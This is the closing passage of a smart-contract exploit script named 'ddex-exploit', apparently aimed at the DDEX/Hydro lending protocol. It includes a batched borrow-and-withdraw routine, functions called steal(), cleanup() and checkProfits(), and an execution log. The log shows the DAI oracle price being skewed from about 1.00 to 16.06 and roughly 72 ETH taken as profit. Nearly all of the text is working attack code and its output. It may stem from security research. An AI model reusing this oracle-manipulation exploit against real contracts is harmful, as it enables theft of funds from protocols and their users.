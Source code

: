 ```javascript
        HydroLike.Action[] memory actions = new HydroLike.Action[](5);
        actions[0] = HydroLike.Action({
            actionType: HydroLike.ActionType.Deposit,
            encodedParams: abi.encode(address(DAI), uint(daiRequired))
        });
        actions[1] = HydroLike.Action({
            actionType: HydroLike.ActionType.Transfer,
            encodedParams: abi.encode(address(DAI), commonPath, ethDaiPath, uint(daiRequired))
        });
        actions[2] = HydroLike.Action({
            actionType: HydroLike.ActionType.Borrow,
            encodedParams: abi.encode(uint16(ETHDAI_MARKET_ID), address(HYDRO_ETH), uint(ethWanted))
        });
        actions[3] = HydroLike.Action({
            actionType: HydroLike.ActionType.Transfer,
            encodedParams: abi.encode(address(HYDRO_ETH), ethDaiPath, commonPath, uint(ethWanted))
        });
        actions[4] = HydroLike.Action({
            actionType: HydroLike.ActionType.Withdraw,
            encodedParams: abi.encode(address(HYDRO_ETH), uint(ethWanted))
        });
        DAI.approve(address(HYDRO), daiRequired);
        HYDRO.batch(actions);
    }
    
    function cleanup() external {
        DAI.approve(address(MATCHING_MARKET), uint(-1));
        MATCHING_MARKET.sellAllAmount(DAI, boughtFromMatchingMarket, WETH, uint(0));
        WETH.withdrawAll();
        
        DAI.giveAllToUniswap();
        require(DAI_ORACLE.updatePrice());
    }
    
    function checkProfits() external {
        printf("profits=%.18u\n", abi.encode(address(this).balance - INITIAL_BALANCE));
    }
}

/*
### running script "ddex-exploit" at block 8572000
#### executing step: exploit
##### calling: checkRates()
eth=213.440000000000000000 dai=1.003140638067989051
##### calling: skewRates()
##### calling: checkRates()
eth=213.440000000000000000 dai=16.058419875880325580
##### calling: steal()
ethWanted=122.103009983203364425 daiNeeded=2435.392672403537525078
##### calling: cleanup()
##### calling: checkProfits()
profits=72.140629996890984407
#### finished executing step: exploit
*/
```
